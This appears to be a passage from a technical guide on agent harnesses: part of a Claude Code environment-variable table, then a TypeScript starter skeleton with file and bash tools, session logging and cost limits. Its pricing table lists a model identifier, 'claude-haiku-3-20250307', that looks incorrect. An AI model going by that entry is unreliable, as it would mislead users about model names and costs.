| CLAUDE_CODE_EMIT_TOOL_USE_SUMMARIES | Compact | Emit tool use summaries | None |

## Miscellaneous Runtime Variables

| Variable | Subsystem | Description | Default |
|---|---|---|---|
| USER_TYPE | Build | User type ("ant" for internal, "external" for public) | "external" |
| NODE_ENV | Runtime | Node environment (test / development / production) | "production" |
| CLAUDE_CODE_FORCE_SANDBOX | Sandbox | Force sandbox mode for child processes | false |
| CLAUDE_CODE_BUBBLEWRAP | Sandbox | Enable bubblewrap sandbox | false |
| CLAUDE_CODE_HOST_PLATFORM | Platform | Override host platform detection | process.platform |
| CLAUDE_CODE_WORKSPACE_HOST_PATHS | Platform | Workspace host paths for telemetry | None |
| CLAUDE_CODE_TAGS | Metadata | Session tags for telemetry | None |
| CLAUDE_CODE_COWORKER_TYPE | Metadata | Coworker type for telemetry | None |
| CLAUDE_INTERNAL_FC_OVERRIDES | Debug | Feature flag overrides (JSON) | None |
| CLAUDE_CODE_GB_BASE_URL | Debug | Override GrowthBook base URL | None |
| CLAUDE_CODE_CUSTOM_OAUTH_URL | OAuth | Custom OAuth base URL | None |
| CLAUDE_CODE_OAUTH_CLIENT_ID | OAuth | Custom OAuth client ID | None |
| CLAUDE_LOCAL_OAUTH_API_BASE | OAuth | Local OAuth API base URL | None |
| CLAUDE_LOCAL_OAUTH_APPS_BASE | OAuth | Local OAuth apps base URL | None |
| CLAUDE_LOCAL_OAUTH_CONSOLE_BASE | OAuth | Local OAuth console base URL | None |
| CLAUDE_CODE_IDLE_THRESHOLD_MINUTES | Session | Idle threshold before auto-actions (minutes) | 75 |
| CLAUDE_CODE_IDLE_TOKEN_THRESHOLD | Session | Token threshold for idle detection | 100000 |
| CLAUDE_CODE_EXIT_AFTER_STOP_DELAY | Session | Delay before exit after stop (ms) | None |
| CLAUDE_CODE_SESSIONEND_HOOKS_TIMEOUT_MS | Hooks | SessionEnd hook timeout (ms) | None |
| CLAUDE_CODE_SAVE_HOOK_ADDITIONAL_CONTEXT | Hooks | Save hook additional context to session storage | false |
| CLAUDE_ENABLE_STREAM_WATCHDOG | API | Enable stream idle watchdog | None |
| CLAUDE_STREAM_IDLE_TIMEOUT_MS | API | Stream idle timeout (ms) | 90000 |
| CLAUDE_CODE_DISABLE_NONSTREAMING_FALLBACK | API | Disable non-streaming fallback | false |
| CLAUDE_CODE_DISABLE_EXPERIMENTAL_BETAS | API | Disable experimental beta features | false |
| CLAUDE_CODE_INCLUDE_PARTIAL_MESSAGES | SDK | Include partial messages in output | false |
| CLAUDE_CODE_RESUME_INTERRUPTED_TURN | Session | Resume an interrupted turn | None |
| CLAUDE_CODE_SKIP_PROMPT_HISTORY | Session | Skip prompt history storage | false |
| CLAUDE_CODE_DISABLE_FEEDBACK_SURVEY | UI | Disable feedback surveys | false |
| CLAUDE_FORCE_DISPLAY_SURVEY | UI | Force display of feedback survey | None |
| CLAUDE_CODE_STALL_TIMEOUT_MS_FOR_TESTING | Testing | Stall timeout for download testing | None |
| CLAUDE_CODE_TEST_FIXTURES_ROOT | Testing | Test fixtures root directory | cwd |
| CLAUDE_CODE_SLOW_OPERATION_THRESHOLD_MS | Diagnostics | Threshold for slow operation logging (ms) | None |
| CLAUDE_CODE_PROVIDER_MANAGED_BY_HOST | Auth | Provider managed by host process | false |
| CLAUDE_CODE_ENABLE_CFC | Chrome | Enable Claude-in-Chrome feature | None |
| CLAUDE_CHROME_PERMISSION_MODE | Chrome | Permission mode for Chrome extension | None |
| CLAUDE_CODE_TMUX_SESSION | UI | Tmux session name | None |
| CLAUDE_CODE_TMUX_PREFIX | UI | Tmux prefix key | None |
| CLAUDE_CODE_TMUX_PREFIX_CONFLICTS | UI | Whether tmux prefix conflicts with Claude | None |
| CLAUDE_CODE_TMUX_TRUECOLOR | UI | Tmux truecolor support flag | None |
| CLAUDE_JOB_DIR | Agent | Job directory for classifier state | None |
| CLAUDE_REPL_MODE | Tools | REPL tool mode | None |
| CLAUDE_MORERIGHT | UI | Enable moreright mode (ant-only) | false |
| CLAUDE_CODE_PLAN_V2_AGENT_COUNT | Plan | Plan v2 agent count | None |
| CLAUDE_CODE_PLAN_V2_EXPLORE_AGENT_COUNT | Plan | Plan v2 explore agent count | None |
| CLAUDE_CODE_PLAN_MODE_INTERVIEW_PHASE | Plan | Plan mode interview phase | None |
| CLAUDE_MOCK_HEADERLESS_429 | Testing | Mock headerless 429 responses | None |
| CLAUDE_AFTER_LAST_COMPACT | Debug | After-last-compact flag | None |
| CLAUDE_CODE_ENVIRONMENT_RUNNER_VERSION | Remote | Environment runner version | None |
| CLAUDE_CODE_EAGER_FLUSH | SDK | Enable eager message flushing | false |

**Source**: All variables extracted by grepping for `process.env.CLAUDE_`, `process.env.ANTHROPIC_`, and `process.env.AWS_` across the `src/` directory. Variables prefixed with `CLAUDE_CODE_` are Claude Code specific. Variables prefixed with `ANTHROPIC_` are shared with the Anthropic SDK ecosystem. Variables prefixed with `AWS_` are standard AWS SDK variables read for Bedrock integration.

# Appendix I. Minimal Harness Starter Skeleton

This appendix provides a self-contained TypeScript file that implements Layers 1 and 2 from the greenfield implementation ordering guide in Chapter 56. The code is a **starter skeleton -- not production code**. It is designed to be copied into a new project, run immediately, and extended incrementally by adding Layers 3-8 as described in the ordering guide.

The skeleton uses the official `@anthropic-ai/sdk` package and runs under Bun, Node, or any TypeScript runtime that supports the Anthropic SDK. It demonstrates: the query loop (send messages, receive responses, dispatch tool calls, loop until done), a tool registry with three example tools (`read_file`, `write_file`, `bash`), session persistence via JSONL, stop conditions (max turns, model stop, cost limit), and basic cost tracking.

To run the skeleton:

```bash
# Install the dependency
npm install @anthropic-ai/sdk
# or: bun add @anthropic-ai/sdk

# Set your API key
export ANTHROPIC_API_KEY="sk-ant-..."

# Run the skeleton
bun run minimal-harness.ts
# or: npx tsx minimal-harness.ts
```

## The skeleton

```typescript
// minimal-harness.ts — Starter skeleton for a long-running agent harness
// Implements Layers 1 (query loop + tool dispatch) and 2 (session persistence)
// from the implementation ordering guide in Chapter 56.
//
// Starter skeleton — not production code.
// To run: bun run minimal-harness.ts
// Requires: @anthropic-ai/sdk package

import Anthropic from "@anthropic-ai/sdk";
import * as fs from "fs";
import * as path from "path";
import * as readline from "readline";

// ---------------------------------------------------------------------------
// Configuration
// ---------------------------------------------------------------------------

const MODEL = "claude-sonnet-4-20250514";
const MAX_TOKENS_PER_TURN = 8192;
const MAX_TURNS = 200;
const COST_LIMIT_USD = 5.0;
const COST_WARNING_USD = COST_LIMIT_USD * 0.8;
const SESSION_DIR = ".sessions";

// Per-model pricing (USD per million tokens). Update these as pricing changes.
const PRICING: Record<string, { input: number; output: number }> = {
  "claude-sonnet-4-20250514": { input: 3.0, output: 15.0 },
  "claude-opus-4-20250514": { input: 15.0, output: 75.0 },
  "claude-haiku-3-20250307": { input: 0.25, output: 1.25 },
};

// ---------------------------------------------------------------------------
// Types
// ---------------------------------------------------------------------------

// A tool handler receives the tool input (parsed from the model's JSON) and
// returns a string result. In a production harness, handlers would return
// structured results with success/failure status and optional metadata.
type ToolHandler = (input: Record<string, unknown>) => Promise<string>;

// Cost tracking state. Accumulates token counts and dollar estimates
// across all model calls in the session.
interface CostState {
  inputTokens: number;
  outputTokens: number;
  estimatedUSD: number;
  turnCount: number;
}

// A single entry in the JSONL session log. Each line in the log file
// is one of these records, JSON-serialized.
interface LogEntry {
  timestamp: string;
  role: "user" | "assistant" | "tool_result";
  content: unknown;
  costSnapshot?: CostState;
}

// ---------------------------------------------------------------------------
// Layer 2: Session persistence
// ---------------------------------------------------------------------------
// The session log is a JSONL file (one JSON object per line) stored in
// the SESSION_DIR directory. Each message sent to or received from the
// model is appended as a LogEntry. On startup, if a session ID matches
// an existing log file, the conversation is replayed from the log.

function ensureSessionDir(): void {
  if (!fs.existsSync(SESSION_DIR)) {
    fs.mkdirSync(SESSION_DIR, { recursive: true });
  }
}

function sessionLogPath(sessionId: string): string {
  return path.join(SESSION_DIR, `${sessionId}.jsonl`);
}

function appendToLog(sessionId: string, entry: LogEntry): void {
  const logPath = sessionLogPath(sessionId);
  fs.appendFileSync(logPath, JSON.stringify(entry) + "\n");
}

// Replay a JSONL log file into an Anthropic-compatible message array.
// Returns the messages and the last cost snapshot (so cost tracking
// resumes from where it left off).
function replayLog(sessionId: string): {
  messages: Anthropic.MessageParam[];
  cost: CostState;
} {
  const logPath = sessionLogPath(sessionId);
  const messages: Anthropic.MessageParam[] = [];
  let cost: CostState = {
    inputTokens: 0,
    outputTokens: 0,
    estimatedUSD: 0,
    turnCount: 0,
  };

  if (!fs.existsSync(logPath)) {
    return { messages, cost };
  }

  const lines = fs.readFileSync(logPath, "utf-8").split("\n").filter(Boolean);
  for (const line of lines) {
    const entry: LogEntry = JSON.parse(line);
    if (entry.costSnapshot) {
      cost = entry.costSnapshot;
    }
    if (entry.role === "user") {
      messages.push({
        role: "user",
        content: entry.content as string,
      });
    } else if (entry.role === "assistant") {
      messages.push({
        role: "assistant",
        content: entry.content as Anthropic.ContentBlock[],
      });
    } else if (entry.role === "tool_result") {
      messages.push({
        role: "user",
        content: entry.content as Anthropic.ToolResultBlockParam[],
      });
    }
  }

  return { messages, cost };
}

// ---------------------------------------------------------------------------
// Layer 1: Tool registry
// ---------------------------------------------------------------------------
// Each tool has a name, a JSON Schema for its input, and a handler function.
// The registry is a plain object mapping tool names to their definitions.
// To add a new tool, add an entry to TOOL_DEFINITIONS and TOOL_HANDLERS.

// Tool definitions sent to the model. These follow the Anthropic tool schema.
const TOOL_DEFINITIONS: Anthropic.Tool[] = [
  {
    name: "read_file",
    description:
      "Read the contents of a file at the given path. Returns the file " +
      "content as a string, or an error message if the file does not exist.",
    input_schema: {
      type: "object" as const,
      properties: {
        path: {
          type: "string",
          description: "Absolute or relative path to the file to read.",
        },
      },
      required: ["path"],
    },
  },
  {
    name: "write_file",
    description:
      "Write content to a file at the given path. Creates the file if it " +
      "does not exist. Overwrites the file if it does exist. Creates " +
      "parent directories as needed.",
    input_schema: {
      type: "object" as const,
      properties: {
        path: {
          type: "string",
          description: "Absolute or relative path to the file to write.",
        },
        content: {
          type: "string",
          description: "The content to write to the file.",
        },
      },
      required: ["path", "content"],
    },
  },
  {
    name: "bash",
    description:
      "Execute a bash command and return its stdout and stderr. " +
      "The command runs in a child process with a 30-second timeout.",
    input_schema: {
      type: "object" as const,
      properties: {
        command: {
          type: "string",
          description: "The bash command to execute.",
        },
      },
      required: ["command"],
    },
  },
];

// Tool handler implementations. Each handler receives the parsed input
// object and returns a string result.
const TOOL_HANDLERS: Record<string, ToolHandler> = {
  async read_file(input) {
    const filePath = input.path as string;
    try {
      return fs.readFileSync(filePath, "utf-8");
    } catch (err) {
      return `Error reading file: ${(err as Error).message}`;
    }
  },

  async write_file(input) {
    const filePath = input.path as string;
    const content = input.content as string;
    try {
      const dir = path.dirname(filePath);
      if (!fs.existsSync(dir)) {
        fs.mkdirSync(dir, { recursive: true });
      }
      fs.writeFileSync(filePath, content);
      return `Wrote ${content.length} bytes to ${filePath}`;
    } catch (err) {
      return `Error writing file: ${(err as Error).message}`;
    }
  },

  async bash(input) {
    const command = input.command as string;
    const { execSync } = await import("child_process");
    try {
      const output = execSync(command, {
        encoding: "utf-8",
        timeout: 30_000,
        maxBuffer: 1024 * 1024, // 1 MB output cap
      });
      return output || "(no output)";
    } catch (err) {
      const execErr = err as { stdout?: string; stderr?: string; message: string };
      return [
        execErr.stdout || "",
        execErr.stderr || "",
        `Exit error: ${execErr.message}`,
      ]
        .filter(Boolean)
        .join("\n");
    }
  },
};

// ---------------------------------------------------------------------------
// Cost tracking
// ---------------------------------------------------------------------------
// Reads input_tokens and output_tokens from the API response usage field,
// multiplies by the per-model price, and accumulates into the CostState.
// Returns the updated state and a boolean indicating whether the cost
// limit has been exceeded.

function updateCost(
  cost: CostState,
  usage: Anthropic.Usage,
  model: string,
): { cost: CostState; exceeded: boolean; warning: boolean } {
  const pricing = PRICING[model] || { input: 3.0, output: 15.0 };
  const inputCost = (usage.input_tokens / 1_000_000) * pricing.input;
  const outputCost = (usage.output_tokens / 1_000_000) * pricing.output;

  const updated: CostState = {
    inputTokens: cost.inputTokens + usage.input_tokens,
    outputTokens: cost.outputTokens + usage.output_tokens,
    estimatedUSD: cost.estimatedUSD + inputCost + outputCost,
    turnCount: cost.turnCount + 1,
  };

  return {
    cost: updated,
    exceeded: updated.estimatedUSD >= COST_LIMIT_USD,
    warning:
      updated.estimatedUSD >= COST_WARNING_USD &&
      cost.estimatedUSD < COST_WARNING_USD,
  };
}

// ---------------------------------------------------------------------------
// Layer 1: Query loop
// ---------------------------------------------------------------------------
// The query loop is the core of the harness. It sends the message array
// to the model, receives a response, checks for tool-use blocks, dispatches
// each tool call to its handler, appends the results, and loops.
//
// Stop conditions:
//   1. The model returns stop_reason "end_turn" (model is done).
//   2. The turn count exceeds MAX_TURNS (runaway protection).
//   3. The accumulated cost exceeds COST_LIMIT_USD (budget gate).

async function queryLoop(
  client: Anthropic,
  sessionId: string,
  messages: Anthropic.MessageParam[],
  cost: CostState,
): Promise<void> {
  const systemPrompt =
    "You are a helpful coding assistant. You have access to tools for " +
    "reading files, writing files, and running bash commands. Use these " +
    "tools to help the user with their task. When you are done, say so " +
    "clearly and stop calling tools.";

  let currentCost = cost;

  while (currentCost.turnCount < MAX_TURNS) {
    // ---- Call the model ----
    const response = await client.messages.create({
      model: MODEL,
      max_tokens: MAX_TOKENS_PER_TURN,
      system: systemPrompt,
      tools: TOOL_DEFINITIONS,
      messages,
    });

    // ---- Update cost ----
    const costResult = updateCost(currentCost, response.usage, MODEL);
    currentCost = costResult.cost;

    if (costResult.warning) {
      console.log(
        `[COST WARNING] Estimated spend: $${currentCost.estimatedUSD.toFixed(4)} ` +
          `(${((currentCost.estimatedUSD / COST_LIMIT_USD) * 100).toFixed(1)}% of limit)`,
      );
    }

    // ---- Log the assistant message ----
    appendToLog(sessionId, {
      timestamp: new Date().toISOString(),
      role: "assistant",
      content: response.content,
      costSnapshot: currentCost,
    });

    // ---- Append assistant message to conversation ----
    messages.push({
      role: "assistant",
      content: response.content,
    });

    // ---- Print text blocks to the console ----
    for (const block of response.content) {
      if (block.type === "text") {
        console.log(`\nAssistant: ${block.text}`);
      }
    }

    // ---- Check stop conditions ----
    if (response.stop_reason === "end_turn") {
      console.log("\n[Session ended: model stop]");
      break;
    }

    if (costResult.exceeded) {
      console.log(
        `\n[Session ended: cost limit exceeded at $${currentCost.estimatedUSD.toFixed(4)}]`,
      );
      break;
    }

    // ---- Dispatch tool calls ----
    // Collect all tool_use blocks from the response and dispatch them.
    // Results are gathered into a single tool_result message.
    const toolUseBlocks = response.content.filter(
      (block): block is Anthropic.ToolUseBlock => block.type === "tool_use",
    );

    if (toolUseBlocks.length === 0) {
      // No tool calls and no end_turn -- the model may be waiting for
      // user input or is confused. Break to avoid an infinite loop.
      console.log("\n[Session ended: no tool calls and no stop signal]");
      break;
    }

    const toolResults: Anthropic.ToolResultBlockParam[] = [];

    for (const toolUse of toolUseBlocks) {
      const handler = TOOL_HANDLERS[toolUse.name];
      let result: string;

      if (!handler) {
        result = `Error: unknown tool "${toolUse.name}"`;
        console.log(`\n[Tool ${toolUse.name}] unknown tool`);
      } else {
        console.log(`\n[Tool ${toolUse.name}] dispatching...`);
        try {
          result = await handler(toolUse.input as Record<string, unknown>);
        } catch (err) {
          result = `Error executing tool: ${(err as Error).message}`;
        }
        // Truncate very large tool results to avoid context blowup.
        // In production, this is where microcompact (Layer 3) would go.
        const MAX_RESULT_LENGTH = 50_000;
        if (result.length > MAX_RESULT_LENGTH) {
          result =
            result.slice(0, MAX_RESULT_LENGTH) +
            `\n...[truncated, ${result.length - MAX_RESULT_LENGTH} bytes omitted]`;
        }
        console.log(
          `[Tool ${toolUse.name}] done (${result.length} chars)`,
        );
      }

      toolResults.push({
        type: "tool_result",
        tool_use_id: toolUse.id,
        content: result,
      });
    }

    // ---- Append tool results to conversation ----
    const toolResultMessage: Anthropic.MessageParam = {
      role: "user",
      content: toolResults,
    };
    messages.push(toolResultMessage);

    // ---- Log tool results ----
    appendToLog(sessionId, {
      timestamp: new Date().toISOString(),
      role: "tool_result",
      content: toolResults,
      costSnapshot: currentCost,
    });
  }

  if (currentCost.turnCount >= MAX_TURNS) {
    console.log(`\n[Session ended: max turns (${MAX_TURNS}) reached]`);
  }

  // ---- Print session summary ----
  console.log("\n--- Session Summary ---");
  console.log(`  Turns: ${currentCost.turnCount}`);
  console.log(`  Input tokens: ${currentCost.inputTokens.toLocaleString()}`);
  console.log(`  Output tokens: ${currentCost.outputTokens.toLocaleString()}`);
  console.log(`  Estimated cost: $${currentCost.estimatedUSD.toFixed(4)}`);
  console.log(`  Session log: ${sessionLogPath(sessionId)}`);
}

// ---------------------------------------------------------------------------
// Main: read user input, start or resume a session, run the loop
// ---------------------------------------------------------------------------

async function main(): Promise<void> {
  const client = new Anthropic();

  // Session ID: use HARNESS_SESSION_ID env var to resume, or generate a new one.
  const sessionId =
    process.env.HARNESS_SESSION_ID ||
    `session-${Date.now()}-${Math.random().toString(36).slice(2, 8)}`;

  ensureSessionDir();

  // Replay existing session if resuming.
  const { messages, cost } = replayLog(sessionId);
  if (messages.length > 0) {
    console.log(
      `Resumed session ${sessionId} (${messages.length} messages, ` +
        `$${cost.estimatedUSD.toFixed(4)} spent so far)`,
    );
  } else {
    console.log(`New session: ${sessionId}`);
  }

  // Read user prompt from stdin (single prompt, then run to completion).
  // In a production harness, this would be a REPL loop or an API endpoint.
  const rl = readline.createInterface({
    input: process.stdin,
    output: process.stdout,
  });

  const userPrompt = await new Promise<string>((resolve) => {
    rl.question("Prompt: ", (answer) => {
      rl.close();
      resolve(answer);
    });
  });

  if (!userPrompt.trim()) {
    console.log("Empty prompt. Exiting.");
    return;
  }

  // Append the user message to the conversation and log.
  messages.push({ role: "user", content: userPrompt });
  appendToLog(sessionId, {
    timestamp: new Date().toISOString(),
    role: "user",
    content: userPrompt,
  });

  console.log(`\nRunning (max ${MAX_TURNS} turns, $${COST_LIMIT_USD} limit)...\n`);

  await queryLoop(client, sessionId, messages, cost);
}

main().catch((err) => {
  console.error("Fatal error:", err);
  process.exit(1);
});
```

## How to extend this skeleton

The skeleton above is deliberately minimal. Here is how to add each subsequent layer from the ordering guide:

**Adding Layer 4 (back-pressure and cost control).** The skeleton already includes basic cost tracking and a hard limit. To make it production-grade: add per-model pricing lookup from a configuration file, add spend-rate tracking (dollars per minute over a sliding window), add a diminishing-returns detector that counts consecutive tool calls that produce no new output, and wire the cost gate into a `PreToolUse` hook rather than checking it inline in the loop.

**Adding Layer 3 (context management).** When the total token count approaches the model's context window, the skeleton will fail with an API error. To prevent this: add a `tokenCount` function that estimates the token count of the message array (the Anthropic SDK returns `usage.input_tokens` which can be used as a running estimate), add a microcompact pass that replaces old tool-result content with `"[result truncated]"` when the count exceeds 60% of context window, and add an autocompact pass that invokes the model with a summarization prompt when the count exceeds 80%.

**Adding Layer 5 (tool permissions).** Wrap the tool dispatch in a permission check: before calling `handler(toolUse.input)`, look up the tool name in a permission table. If the permission is `deny`, return an error to the model without executing. If the permission is `ask`, prompt the user for confirmation. If the permission is `allow`, proceed. Store the permission table in a JSON configuration file that can be edited without changing code.

**Adding Layer 6 (multi-agent dispatch).** Add a new tool called `dispatch_agent` that spawns a subagent: create a new `queryLoop` invocation with its own message array, its own session log (using a child session ID derived from the parent), and a cost cap that is a fraction of the parent's remaining budget. The subagent's result is returned as a tool result to the parent agent.

**Adding Layer 7 (observability).** Replace the `console.log` calls with a structured event emitter. Each event should carry a timestamp, a session ID, a span ID, and a parent span ID (for multi-agent tracing). Write events to a JSONL log separate from the conversation log. At session end, compute and display: total cost, cost per tool, average tokens per turn, and wall-clock duration.

**Adding Layer 8 (memory).** At session end, invoke the model with a summarization prompt: "Given this conversation, extract key facts, decisions, file paths, and lessons learned. Format as a bulleted list." Write the result to a memory file at `.sessions/{sessionId}.memory.md`. On session start, read all memory files and inject them into the system prompt as a "Previous session context" section. Cap the total memory injection at 2000 tokens to avoid crowding out the actual task.
